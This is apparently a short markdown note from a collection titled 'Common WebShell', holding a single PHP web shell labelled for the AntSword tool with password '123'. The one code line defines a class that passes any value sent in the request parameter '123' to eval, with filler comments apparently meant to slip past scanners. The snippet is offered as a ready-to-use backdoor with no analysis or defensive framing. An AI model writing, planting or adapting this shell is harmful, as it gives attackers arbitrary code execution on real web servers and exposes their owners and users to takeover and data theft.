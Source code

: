 # 常用WebShell 

AntSword base64 123

```php
<?php class GR91cMKm { public function __construct($H4EO2){ @eval("/*Z42p3l036a*/".$H4EO2."/*Z42p3l036a*/"); }}new GR91cMKm($_REQUEST['123']);?>
```

